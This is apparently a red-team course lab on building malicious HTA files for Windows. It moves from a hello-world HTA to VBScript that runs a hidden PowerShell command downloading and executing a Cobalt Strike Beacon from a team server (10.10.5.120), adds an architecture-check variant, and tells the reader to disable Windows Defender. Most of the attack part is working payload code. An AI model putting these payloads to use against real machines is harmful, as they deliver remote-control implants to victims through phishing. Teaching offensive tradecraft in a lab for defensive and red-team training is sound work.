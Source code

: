 An HTA is a proprietary Windows program whose source code consists of HTML and one or more scripting languages supported by Internet Explorer (VBScript and JScript). The HTML is used to generate the user interface and the scripting language for the program logic. An HTA executes without the constraints of the browser's security model, so it executes as a "fully trusted" application.

An HTA is executed using `mshta.exe`, which is typically installed along with IE. In fact, `mshta` is dependant on IE, so if it has been uninstalled, HTAs will be unable to execute.

To create an HTA, open **Visual Studio Code** on the **attacker-windows** VM and create a new empty file. Save the following content to **C:\\Payloads\\demo.hta**.

```html
<html>
  <head>
    <title>Hello World</title>
  </head>
  <body>
    <h2>Hello World</h2>
    <p>This is an HTA...</p>
  </body>
</html>
```

Now browse to this file in explorer and double-click it to run (make sure to select Microsoft HTML Application host if prompted). All being well, a window will appear with the rendered content.

![alt text](file:///android_asset/20220831113655.png)


Being HTML you can put anything that you want the user to see - so channel your inner creativity.

Let's add some **VBScript** that will execute something on the user's machine. Launching **calc** is the most 1337 thing you can do, so let's try that.
```html
<html>
  <head>
    <title>Hello World</title>
  </head>
  <body>
    <h2>Hello World</h2>
    <p>This is an HTA...</p>
  </body>

  <script language="VBScript">
    Function Pwn()
      Set shell = CreateObject("wscript.Shell")
      shell.run "calc"
    End Function

    Pwn
  </script>
</html>
```

The `wscript.Shell` object provides access to the Windows shell methods and the `run` method simply allows us to run an application from disk. Run the HTA again and the calculator should appear on the desktop.

![alt text](file:///android_asset/20220831113720.png)

Next, we need to replace calc with a Beacon payload. Let's use a PowerShell payload.

In Cobalt Strike, go to **Attacks > Web Drive-by > Scripted Web Delivery (S)** and generate a 64-bit PowerShell payload for your HTTP listener. The URI path can be anything, but I will keep it as **/a**.

This will generate a PowerShell payload and host it on the Team Server so that it can be downloaded over HTTP and executed in-memory. Cobalt Strike will also generate the PowerShell one-liner that will do just that.

![alt text](file:///android_asset/20220831113731.png)

![alt text](file:///android_asset/20220831113736.png)

Copy/paste this line into the HTA in place of calc and make sure to add another set of double quotation marks around the IEX command. It should look like this:

```shell
shell.run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/a'))"""
```

Before you execute the HTA, go to **View > Web Log** in Cobalt Strike. This allows us to see incoming HTTP requests. Now run the HTA.

```
You will need to disable Windows Defender on the attacker-windows VM first.
```

You should see an entry appear in the weblog for `/a` (or whatever URI you used), but no Beacon will appear. Why is that?  If we use Process Hacker to inspect the running `mshta` process, we can see it's actually a 32-bit application (there is a 64-bit version, but the 32-bit version is the one that seems to run by default).

![alt text](file:///android_asset/20220831113809.png)

This means that mshta is also launching the 32-bit version of PowerShell, but the payload we generated was 64-bit.  We can "fix" this by either changing our payload to be 32-bit (not desirable), or to force mshta to use the 64-bit version of PowerShell.

To do the latter, instead of simply putting `powershell.exe` into the HTA, we provide the full path:
```shell
C:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe
```

`sysnative` is a sort of alias for `System32` that only exists for 32-bit applications running on a 64-bit OS. Otherwise if you try to access `C:\Windows\System32` in a 32-bit application, it will actually redirect to `C:\Windows\SysWOW64`.  I recommend checking out [this article](https://www.samlogic.net/articles/32-64-bit-windows-folder-x86-syswow64.htm) to understand SysWOW64 better.

A more robust solution could be to perform an architecture check in the HTA or an intermediately PowerShell script and invoke the correct payload for the target.

```vb.net
Function Pwn()
  Set shell = CreateObject("wscript.Shell")

  If shell.ExpandEnvironmentStrings("%PROCESSOR_ARCHITECTURE%") = "AMD64" Then
    shell.run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://10.10.5.120/a'))"""
  Else
    shell.run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://10.10.5.120/b'))"""
  End If

End Function
```

> Fix the HTA using the details above to get a 64-bit Beacon running on **attacker-windows**.

